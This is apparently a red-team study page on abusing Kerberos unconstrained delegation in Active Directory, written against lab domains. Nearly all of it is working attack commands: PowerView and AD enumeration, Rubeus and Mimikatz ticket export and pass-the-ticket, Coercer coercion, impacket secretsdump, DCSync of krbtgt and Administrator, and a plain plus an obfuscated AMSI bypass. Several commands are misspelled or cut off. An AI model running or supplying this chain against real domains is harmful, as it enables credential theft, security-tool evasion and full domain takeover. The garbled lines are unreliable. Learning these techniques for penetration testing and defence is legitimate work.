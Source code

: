 # Kerberos Unconstrained Delegation

## **Kerberos Unconstrained Delegation**

> General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.

**Required**

1. Define Unconstrained Delegation Machines
2. we need to user who has Access to the machine

Essentially this looks like so: **`User`** --- authenticates to ---> **`IIS server`** ---> authenticates on behalf of the user ---> **`DB server`**

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Tools

{% embed url="https://github.com/dirkjanm/krbrelayx.git" %}

define Unconstrained Machines

{% code overflow="wrap" %}
```powershell
#using PowerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname
# using Import-Module ActiveDirectory 
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:orange;">**Hint**</mark>**: discover users that who you have WriteDACL permission on there or do Enumeration to get user**
{% endhint %}

Rubeus

{% embed url="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" %}

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe ptt /tikcet: base64.exe  monitor /monitornterval:10 /targetuser$ /nowarp

.\Rubeus.exe ptt /tikcet: base64 

.\rubeus.exe asktgt /user:abdo /domain:hacktor.local /ntlm:Hash /outfile:FileName.tgt
#OR
cat b64.txt|base64 -d > ticket.kirbi 
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (27).png" alt=""><figcaption><p>TGT ticket for the websvc account.</p></figcaption></figure>

After obtaining the TGT tickets from the domain controller, we can now request service tickets for the allowed services, i.e., **CIFS** and **TIME**, or alternate services like **LDAP** or **WMI**.

### Coercer

{% code overflow="wrap" %}
```bash
coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue

```
{% endcode %}

{% code overflow="wrap" %}
```bash
sudo impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
{% endcode %}

mimikatz

{% code overflow="wrap" %}
```powershell
mimikatz.exe "privilege::debug" "kerberos::ptt PDC.kirbi" "lsadump::dcsync /domain:hacktor.local /user:Administrator" "exit"
#Once the ticket is injected, run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
{% endcode %}

now enumerating the computers which have unconstrained delegation enabl



```markdown
.\powerview.ps1
Get-NetComputer -Unconstrained
```

* Example output: We find the computer `WIN-Q4788GPE9L7` with unconstrained delegation enabled.



#### Step 2: Find Local Admin Access

```powershell
Find-LocalAdminAccess
```

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* Output: Our user has local admin access to the computer with unconstrained delegation.

#### Step 3: Enable PowerShell Remoting

```powershell
Enable-PSRemoting
```

#### Step 4: Create and Use a PowerShell Session

```powershell
$sess = New-PSSession -ComputerName WIN-Q4788GPE9L7
Invoke-Command -FilePath ..\..\rem01x.crtp\Desktop\tools\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession -Session $sess
```

* Bypass AMSI:

```powershell
$amsiBypass = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static')
$amsiBypass.SetValue($null, $true)


S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U')
```

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

#### Step 5: Dump Secrets and List Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Step 6: Export Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

* Example output: Administrator `.kirbi` file.

#### Step 7: Monitor Actions on the Machine

```powershell
Invoke-UserHunter -ComputerName WIN-Q4788GPE9L7 -UserAdminCount -Delay 5 -Verbose
```

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

* Output: Administrator account detected.

#### Step 8: Pass the Ticket to Memory and Impersonate the User

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\Administrator\kerb\[0;120dde]-2-0-60a10000-Administrator@krbtgt-CRTP.LOCAL.kirbi"'
```

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

* Result: We are now the administrator on the machine.

### Deep Dive into Unconstrained Delegation

#### Process Overview

1. Vegeta wants to access the `server web01` to list folders.
2. The `web01` process impersonates Vegeta and creates a new thread with Vegeta's credentials.
3. The server accesses the intended folder with the impersonated thread.

#### Configuration

To list computers with unconstrained delegation:

```powershell
Get-NetComputer -Unconstrained | select cn,useraccountcontrol
```

#### Network Traffic (Wireshark Capture)

1. Client requests a TGT.
2. Domain controller responds with the TGT.
3. Client requests a service ticket (TGS) for the web application.
4. Domain controller responds with the TGS.
5. Client requests another TGT to delegate to the web service.
6. Domain controller responds with a copy of the user TGT.
7. The application request goes to the web server.
8. The web service requests a TGS for the SQL server using the client's TGT.
9. Domain controller responds with the TGS.
10. Access is granted and the database server is successfully accessed.
11. Application replies.

### Abusing Unconstrained Delegation

Continue monitoring and exploitation using appropriate PowerShell commands and tools.

## �&#xDCDA;**$\_References** <a href="#id-6572" id="id-6572"></a>

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/?source=post_page-----4a0eddc5bb13--------------------------------" %}
